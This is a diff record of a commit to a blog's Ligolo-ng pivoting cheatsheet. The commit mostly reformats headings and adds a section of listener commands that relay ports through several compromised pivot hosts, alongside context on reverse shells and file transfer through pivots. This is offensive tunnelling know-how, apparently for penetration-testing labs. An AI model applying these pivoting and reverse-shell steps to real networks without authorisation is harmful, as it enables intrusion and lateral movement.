

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-10-31-Ligolo-ng-Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 5643 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-10-31-Ligolo-ng-Cheatsheet.md

````diff
--- a/_posts/2024-10-31-Ligolo-ng-Cheatsheet.md
+++ b/_posts/2024-10-31-Ligolo-ng-Cheatsheet.md
@@ -12,22 +12,23 @@
 - [File Transfer Example with Single Pivot](#file-transfer-example-with-single-pivot)
 - [Reverse Shell Example with Single Pivot](#reverse-shell-example-with-single-pivot)
 - [Easy Double Pivot to Access a Second Internal Network](#easy-double-pivot-to-access-a-second-internal-network)
+- [Fast Pipelines with same Port through Multiple Pivots](#fast-pipelines-with-same-port-through-multiple-pivots)
 
-# Getting Ligolo.ng
+### Getting Ligolo.ng
 Important Note: Make sure you are always using the same version of Proxy and Agent (For example, both Proxy and Agent must be 0.7.2).
 
-## Download the binaries manually (Recommended)
-### PROXY (Run this on Kali)
+#### Download the binaries manually (Recommended)
+##### PROXY (Run this on Kali)
 - [Linux 64-bit Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
 - [Windows 64-bit Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)
 
-### AGENT (Run this on Pivot Host)
+##### AGENT (Run this on Pivot Host)
 - [Linux 64-bit Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
 - [Windows 64-bit Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)
 
 For more information about Ligolo-ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).
 
-# Alternative with Package Installer
+#### Alternative with Package Installer
 ```shell
 sudo apt install ligolo-ng
 
@@ -39,7 +40,7 @@
 ./agent
 ```
 
-# Basic Pivot
+### Basic Pivot
 Move the agent file into the pivot host:
 ```shell
 # On Kali
@@ -96,7 +97,7 @@
 # Now we are able to access the network 172.16.150.0/24
 ```
 
-## File Transfer Example with Single Pivot
+### File Transfer Example with Single Pivot
 In this example:
 - We got access into the Host B 172.16.150.20 (We are inside its CLI).
 - We previously set up our Pivot Host A, in this case 172.16.150.10.
@@ -115,7 +116,7 @@
 wget http://172.16.150.10:9001/test.txt
 ```
 
-## Reverse Shell Example with Single Pivot
+### Reverse Shell Example with Single Pivot
 Following the example above, we will create a new listener, but this time we will use that listener to get a Reverse Shell:
 ```shell
 # Create new listener - Port 1235 on Kali will be the Port 9002 on the Pivot Host A
@@ -131,7 +132,7 @@
 # Now we successfully got a shell from the Host B (172.16.50.20) to our Kali
 ```
 
-## Easy Double Pivot to Access a Second Internal Network
+### Easy Double Pivot to Access a Second Internal Network
 The following situation is given:
 - We got access to the first internal network (172.16.150.0/24) through Administrator access at Pivot Host A (172.16.150.10).
 - The Host B as access to another internal network (172.16.200.0/24).
@@ -169,3 +170,17 @@
 
 # Now we can access the second internal network 172.16.200.0/24
 ```
+### Fast Pipelines with same Port through Multiple Pivots
+```shell
+# Note: Our Kali IP  in this example is 192.168.45.200
+
+# Add listeners inside Ligolo-Ng console
+# On Session 1 - Pivot Host A (172.16.150.1)
+listener_add --addr 0.0.0.0:9000 --to 0.0.0.0:9000
+
+# On Session 2 - Pivot Host B (172.16.200.1)
+listener_add --addr 0.0.0.0:9000 --to 0.0.0.0:9000
+
+# Now we can access the Port 9000 in our Kali through Port 9000 on Pivot Host B and viceversa
+172.16.200.1:9000 = 192.168.45.200:9000 = 127.0.0.1:9000
+```
````
